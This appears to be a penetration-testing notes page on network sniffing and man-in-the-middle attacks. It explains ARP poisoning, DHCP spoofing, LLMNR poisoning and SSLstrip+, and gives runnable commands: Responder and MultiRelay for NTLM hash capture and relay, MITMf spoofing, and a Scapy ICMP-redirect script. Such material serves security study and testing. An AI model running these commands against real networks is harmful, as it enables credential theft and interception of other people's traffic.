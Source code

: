 ## Sniffing

Sniffing is the action to intercept network traffic generated from or directed to a victim. 

### Passive Sniffing

Passive sniffing activities are conducted by just listening to the network without performing any
action.

```bash
# Listen on eth0 interface for everything
tcpdump -i eth0

# Listen for each packet to 10.10.100.1, print the data, the header and each content in ASCII
# with a MTU of 0
tcpdump -xxAXXSs 0 dst 10.10.100.1

# Print verbose output
tcpdump -i eth0 -vvvASs 0 dst 10.10.100.1

# Launch tcpdump loading filters from file
tcpdump -F filters.txt
```

## Man-in-the-Middle

### MAC Flooding

This is an active technique which has the call of filling up the switch's CAM table. This table
keeps the information about which MAC address resides on which port. If the table is full and a new
packet to a MAC address which is not in the table is received, the switch is forced to behave as a
hub and forward the traffic on all the ports. By sending many frames with random MAC addresses
through the switch, the switch will 'learn' these MAC and write them in the table. If the number of
frames is sufficiently high, the CAM table will fill up and the traffic directed toward legitimate
devices will be send in broadcast.

### ARP Poisoning

This is an active technique which abuses the ARP protocol to either mount a MitM attack or to cause
a Denial of Service. In this attack the attacker responds to every ARP request received, therefore
trying to impersonate every device in the network. If the attack is successful, every packet
directed toward any device will be sent first to the attacker device, which can then forward it
to the destination (MitM) or drop it (DoS).

It is possible to also generate gratuitous ARP responses (or requests), in which unsolicited ARP
replies are sent to a destination.

#### Host Poisoning

In this version of the attack, the attacker will try to create a MitM between two hosts. This can be
accomplished for example by sending gratuitous ARP replies to both the hosts.

#### Gateway Poisoning

In this version of ARP poisoning, the attacker will send gratuitous ARP replies to all the hosts (or
some) in the network, announcing his MAC address as the MAC corresponding to the IP of default
gateway.

!!! warning
    In this scenario all the traffic meant for the default gateway will be send first to the
    attacker machine (which then needs to forward it to the gateway unless a DoS is the objective).
    If the attacker device doesn't have sufficient resources, this could cause an inadvertent Denial
    of Service.

### DHCP Spoofing

DHCP Spoofing is an active technique used to mount MitM attack. DHCP communication happens mostly
using broadcast packets, so it is possible to exploit this functionality by responding to any DHCP
discovery packets. Since the criteria used by the client to determine which DHCP offer to choose
(there can be multiple DHCP servers) is the lease time amount (the longer the better), an attacker
can set this lease time very high to make sure that clients will select them. Moreover, DHCP usually
sets also default gateway and DNS servers to use. If the attacker is able to respond to DHCP
discovery packets, then it can also set himself as the default gateway and mount successfully a MitM
attack.

### LLMNR and NBT-NS Spoofing/Poisoning

LLMNR (Link-Local Multicast Name Resolution) is the successor of NBT-NS in aiding with name
discovery in Windows Networks. This attack is usefull to capture NTLMv1, NTLMv2 or LM hashes with a
MitM attack.

Both the mentioned protocols allow for a machine in a Windows network to find another device in case
a DNS request should fail. A usual scenario is a user accessing a non-existing DNS name, for example
with a typo, let's say `//netowrk-share//secret`. The DNS query for `netowrk-share` will fail, as
this host doesn't exist. The machine will fallback into LLMNR to discover the host.
Using tools like [Responder](https://github.com/lgandx/Responder), an attacker can respond to such
message claiming to be `netowrk-share`, so the user will actually contact attacker machine, sending
to it its user and NTLMv1 or NTLMv2 hash.

```bash
# Responder.conf
# SMB = Off
# HTTP = Off
# Start responding to LLMNR 
Responder.py -i eth0 --lm &
# Try to use the hashes collected to login into 10.10.100.1
MultiRelay.py -t 10.10.100.1 -u ALL
```

### SSLstrip and SSLstrip+

SSLstrip is a technique used to intercept and sniff on TLS connections. Assuming that the attacker
successfully mounted a MitM attack, the attack consists of replacing any link that the victim is
trying to acces over HTTPs with HTTP. `sslstrip` can do the work for us, also including a favicon
containing the 'trusted' lock. However, strict transport security header
and in particular the preload list that browsers implement can defeat this attack (HSTS preload
list).
For this reason SSltrip+ technique got introduced. The way this technique works is by adding a
malicious DNS to the ssltrip attack, and redirecting the user to a domain similar to the one that
accessed (e.g., www.faceboook.com rather than www.facebook.com), so that the site in question
won't be on HSTS preload list. In this case the user will establish the connection to the target
over HTTP and with a domain very similar to the one requested, the browser won't force HTTPs and
the traffic can be intercepted.

Tools that implement this technique include `MiTMf`.

```bash
python mitmf.py -i eth0 --spoof --arp --dns --hsts --gateway IP --targets IPs
```

### ICMP Redirect

This technique works between a local and a remote target (e.g., a client in the same subnet and a
webserver elsewhere). The idea is to use a ICMP type 5 code 1 packet to signal to a victim's machine
that there is a better gateway to reach the destination. Once received, the victim will start sending traffic through 
the specified gateway.

To mount this attack it might be necessary to also use iptables to perform masquerading, to NAT the
packets coming from the victim with the attacker IP, so that the target will send the answer back to
us and not to the victim (breaking the MiTM).

```bash
# Here 10.100.13.0 is the network of the victim
# tap0 is the outgoing interface for the traffic
iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE
```

Then we can use Scapy to perform the attack, as this allows to conveniently forge packets as needed.

```python
from scapy.all import *
# Creating and sending ICMP redirect packets between these entities:
# Gateway for our network
originalRouterIP='10.100.13.1'
# Our own IP
attackerIP='10.100.13.20'
# Target for the MiTM (i.e., client)
victimIP='10.100.13.126'
# Other target for the MiTM (i.e., server)
serverIP='10.23.56.100'
# Here we create an ICMP Redirect packet
# This has type 5 code 1, which is a redirect with a payload which means
#   Gateway Internet Address
#      Address of the gateway to which traffic for the network specified
#      in the internet destination network field of the original
#      datagram's data should be sent.
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# This is a TCP packet that fakes the continuation of the communication that
# will be hijacked by the previous packet
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
# Launch the attack
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
```

